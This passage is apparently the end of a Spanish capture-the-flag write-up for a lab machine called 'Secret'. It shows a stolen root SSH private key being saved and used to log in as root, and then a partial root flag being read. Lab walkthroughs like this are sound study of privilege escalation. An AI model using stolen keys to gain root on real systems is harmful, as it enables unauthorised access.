 ```bash
netgroup                                
[...]
```
¡Ahí está!, ya lo uńico que queda hacer es copiar esta id_rsa y acceder como root:

```bash
dasith@secret:~$ nano id_rsa
dasith@secret:~$ chmod 600 id_rsa
dasith@secret:~$ ssh -i id_rsa root@localhost
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-89-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Thu 31 Mar 2022 01:43:44 AM UTC

  System load:           0.03
  Usage of /:            52.7% of 8.79GB
  Memory usage:          18%
  Swap usage:            0%
  Processes:             230
  Users logged in:       0
  IPv4 address for eth0: 10.10.11.120
  IPv6 address for eth0: dead:beef::250:56ff:feb9:4818


0 updates can be applied immediately.


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

Last login: Tue Oct 26 15:13:55 2021
root@secret:~# 
```
¡Y ya está!, una vez en este punto podremos ver la flag `root.txt` en `/root/root.txt`:

```bash
root@secret:~# head --bytes 15 /root/root.txt | xargs
e20126d11b3b330
```

